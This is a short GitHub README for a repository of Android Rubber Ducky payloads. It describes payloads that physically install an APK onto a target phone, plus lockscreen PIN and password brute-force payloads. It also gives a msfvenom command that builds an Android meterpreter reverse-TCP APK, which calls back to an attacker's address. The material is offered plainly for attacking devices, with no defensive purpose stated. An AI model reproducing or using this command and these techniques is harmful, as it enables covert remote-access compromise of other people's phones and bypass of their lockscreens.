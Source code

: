 # ANDROID_BLANKET_PARTY
This repository houses all my Android Rubber Ducky payloads

//BLANKET PArty as in that iconic scene from "FUll MEtal Jacket"//
![image](https://github.com/salvat1on/ANDROID_BLANKET_PARTY/assets/27372029/4ca1e4a8-846d-4da1-b140-8399392bd945)

These payloads will install an apk to the target device that resides in the ducky storage.

The [STAND-ALONE] Pin / Password lockscreen brute force payloads will also be included in 
this Repository.

You can create an APK Payload with metasploit with the following command in the terminal

msfvenom -p android/meterpreter_reverse_tcp LHOST=YOUR_ADDRESS LPORT=5555 -o WHATEVER_NAME.apk

The APK file must then be copied to the ducky along side the bin file you place there as well.
